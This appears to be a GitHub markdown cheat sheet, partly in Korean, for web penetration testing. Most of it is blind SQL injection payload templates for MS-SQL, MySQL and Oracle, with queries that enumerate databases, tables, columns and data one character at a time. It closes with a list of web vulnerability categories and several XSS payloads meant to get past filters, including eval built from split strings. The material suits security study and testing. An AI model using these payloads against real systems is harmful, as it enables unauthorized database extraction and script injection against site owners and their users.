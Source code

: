 <h2>[MS-SQL]</h2>  
# Shape  
``` sql
??' and substring((query), 1, 1) < 'a'--  
```  

# get DB NAME  
db_name()  
  
# Get Table name  
``` sql
select top 1 name from sysobjects where xtype='U'  
```

# Get Column name  
``` sql
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'  
```
  
# Get Data  
``` sql
select top 1 [Column Name] from [Table Name]  
```
  
<h2>[MySQL]</h2>  
# Shape  
``` sql
???' and ascii(substr((query), 1, 1)) > 'a'#  
```


# Get Table Name
``` sql
select table_name from information_schema.tables where table_type='base table' limit 0,1  
                                                                                     ㄴ> 0번 째 테이블  
```
  
  
  
<h2>[Oracle]</h2>   
#Shape   
``` sql
and (ascii(SUBSTR(query),1,1))) > 1--  
```
  
#Get DB name   
``` sql
select DISTINCT owner FROM all_tables;  
```
  
#Get Table name   
``` sql
select table_name from all_tables;  
```
  
#Get Column name   
``` sql
select column_name from all_tab_columns where table_name='[table name]';
```

-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
``` sql
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3  
```

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF  
`<img src="#" onmouseover="alert(1);">`  
`<img src="#" onerror="alert(1);">`  
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`  
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
